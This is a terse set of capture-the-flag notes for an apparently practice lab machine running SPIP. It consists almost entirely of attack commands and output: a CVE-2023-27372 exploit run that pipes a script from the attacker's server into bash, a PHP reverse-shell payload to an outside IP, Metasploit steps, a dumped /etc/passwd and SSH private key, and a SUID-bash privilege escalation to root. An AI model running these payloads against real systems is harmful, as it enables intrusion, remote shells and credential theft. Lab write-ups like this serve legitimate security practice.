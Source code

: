 
10.10.175.50

admin
admin123



free web templates


http://10.10.175.50/spip/spip.php


http://10.10.175.50/spip/spip.php?page=plan&var_mode=calcul

http://10.10.175.50/spip/ecrire/

http://10.10.175.50/spip/ecrire/?exec=article_edit&new=oui

http://10.10.175.50/spip/ecrire/?exec=articles

http://10.10.175.50/spip/ecrire/?exec=article_edit&new=oui



php bash
https://raw.githubusercontent.com/Arrexel/phpbash/refs/heads/master/phpbash.php


[La mise à jour 4.2.9 de SPIP est disponible](https://www.spip.net/fr_update "4.2.9")  
**SPIP 4.2.0** is free software distributed [under the GPL license](https://www.gnu.org/licenses/gpl-3.0.html).  
+ safety screen 1.4.2

For more visit [https://www.spip.net/en](https://www.spip.net/en).


![[Pasted image 20241029154008.png]]

https://github.com/nuts7/CVE-2023-27372


./CVE-2023-27372.py -u http://10.10.175.50/ -c 'curl http://10.6.18.190:8000/xp.sh|bash' -v



http://10.10.175.50/spip/ecrire/?exec=article&id_article=2&ajouter=oui




http://10.10.175.50/spip/spip.php?page=spip_pass


&oubli=test%40gmail.com&oubli=s:19:"<?php phpinfo(); ?>";

&oubli=test%40gmail.com&oubli=s:19:"<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.18.190/1234 0>&1'"); ?>";




<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.18.190/1234 0>&1'"); ?>







msfconsole

search spip

use 1

set LHOST tun0
set RHOST 10.10.175.50
set TARGETURI /spip
run


cat /home/think/user.txt
```
fa229046d44eda6a3598c73ad96f4ca5
```

/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
think:x:1000:1000::/home/think:/bin/sh


/home/think/.ssh/id_rsa


-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

chmod 600 think_id_rsa
ssh -i think_id_rsa think@10.10.175.50

https://github.com/peass-ng/PEASS-ng/releases/download/20241011-2e37ba11/linpeas.sh
python -m http.server 8000
wget http://10.6.18.190:8000/linpeas.sh

╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information
COMMAND     PID   TID TASKCMD               USER   FD      TYPE             DEVICE SIZE/OFF       NODE NAME
systemd-j   352 35458 journal-o             root NOFD                                                  /proc/352/task/35458/fd (opendir: No such file or directory)



╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information
COMMAND     PID   TID TASKCMD               USER   FD      TYPE             DEVICE SIZE/OFF       NODE NAME
systemd-j   352 35458 journal-o             root NOFD                                                  /proc/352/task/35458/fd (opendir: No such file or directory)


╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/containerd-ctr-privilege-escalation
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"


	╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 3.0a


/tmp/tmux-1000


-rwsr-sr-x 1 root root 17K Nov 14  2023 /usr/sbin/run_container (Unknown SGID binary)


╔══════════╣ Unexpected in root
/swap.img


╔══════════╣ Backup folders
drwxr-xr-x 2 root root 4096 Feb 11  2024 /var/backups


Hint:Look to the App Armor by it's profile.


```
think@publisher:/etc/apparmor.d$ ps -p $$
    PID TTY          TIME CMD
  52898 pts/1    00:00:00 ash


think@publisher:/dev/shm$ echo $SHELL
/usr/sbin/ash


think@publisher:/etc/apparmor.d$ cd /dev/shm/
think@publisher:/dev/shm$ cp /bin/bash .
think@publisher:/dev/shm$ ./bash 
think@publisher:/dev/shm$ ps -p $$
    PID TTY          TIME CMD
  53237 pts/1    00:00:00 bash


think@publisher:/dev/shm$ cd /opt/
think@publisher:/opt$ ls
containerd  dockerfile  run_container.sh


nano run_container
```

```
#!/bin/bash  
  
cp /bin/bash /tmp/default  
chmod +s /tmp/default
```

```
run_container
cd /tmp
./default -p
```

```
default-5.0# whoami
root
```

root.txt
```
3a4225cc9e85709adda6ef55d6a4f2ca
```